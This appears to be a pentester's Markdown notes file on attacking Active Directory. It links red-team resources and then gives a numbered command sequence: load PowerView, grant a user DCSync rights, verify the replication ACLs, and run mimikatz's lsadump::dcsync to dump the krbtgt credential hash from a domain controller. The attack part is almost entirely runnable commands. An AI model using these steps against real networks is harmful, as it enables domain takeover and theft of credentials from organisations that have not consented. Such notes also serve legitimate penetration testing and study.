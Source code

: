 # Resources

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview  

https://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/

https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/

### [PowerView.ps1]

https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

### [Dumping credentials from the domain controller with DCSync]

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync


1. Import the module
```
import-module .\PowerView.ps1
```

2. Add DCSync rights to user
```
Add-ObjectACL PrincipalIdentity user -Rights DCSync
```

3. Import Active Directory
```
Import-Module ActiveDirectory
```

4. Retrieve the permissions for user
```
(Get-Acl "ad:\dc=DOMAIN,dc=COM").Access | ? {$_.IdentityReference -match 'user' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

5. Use mimikatz to dump credentials
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

```
lsadump::dcsync /user:krbtgt
```

